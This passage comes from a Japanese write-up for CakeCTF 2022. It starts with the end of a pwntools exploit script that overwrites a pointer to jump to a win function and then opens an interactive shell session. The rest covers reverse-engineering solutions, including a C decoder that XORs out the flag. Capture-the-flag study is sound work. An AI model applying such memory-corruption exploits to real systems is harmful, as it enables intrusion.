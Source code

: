 ```python
	ptr[5] = (unsigned long)(win+10);
	return 0;
}
EOF
"""
def exploit():
	conn.sendlineafter("input)\n", src)
	conn.recvuntil("Running...\n")
	conn.interactive()	

if __name__ == "__main__":
	exploit()	

```
discordでも解法大喜利始まってたので、まあ色々できるよね

## rev
### nimrev
eqString()の引数的にflagの長さは0x18
eqString()で呼ばれるequalMem_system_1735にbreakを仕掛けたら
gdbくんが教えてくれた
```
equalMem_system_1735 (
   $rdi = 0x00007ffff7d55060 -> 'AAAABBBBCCCCDDDDAAAABBBB',
   $rsi = 0x00007ffff7d560e0 -> 'CakeCTF{s0m3t1m3s_n0t_C}',
   $rdx = 0x0000000000000018,
   $rcx = 0x00007ffff7d55060 -> 'AAAABBBBCCCCDDDDAAAABBBB'
)
```

### luau
lua問

https://github.com/viruscamp/luadec
↑でダメdecompileがうまくいかねぇ〜と思ってたら
https://sourceforge.net/projects/unluac/
@Lorse氏が違う方法での変換コードを貼ってくれたのでそれを元に進める

decode.c
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

unsigned char table[38] =  {62,85,25,84,47,56,118,71,109,0,90,71,115,9,30,58,32,101,40,20,66,111,3,92,119,22,90,11,119,35,61,102,102,115,87,89,34,34};
unsigned char key[] = "CakeCTF 2022";
unsigned char flag[0x100] = {0};

void main()
{
	int i;
	for(i = 0; i < 38; i++){
		flag[38-i-1] = key[i%strlen(key)] ^ table[i];
	}
	puts(flag);
}
```
